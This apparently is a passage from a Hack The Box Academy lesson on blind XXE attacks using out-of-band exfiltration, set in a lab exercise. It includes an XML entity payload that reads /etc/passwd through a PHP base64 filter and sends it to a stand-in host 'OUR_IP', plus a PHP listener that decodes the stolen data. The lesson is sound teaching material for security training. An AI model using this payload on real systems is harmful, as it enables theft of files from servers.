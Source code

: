 ***

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

***

### Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

Code: xml

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

Code: php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

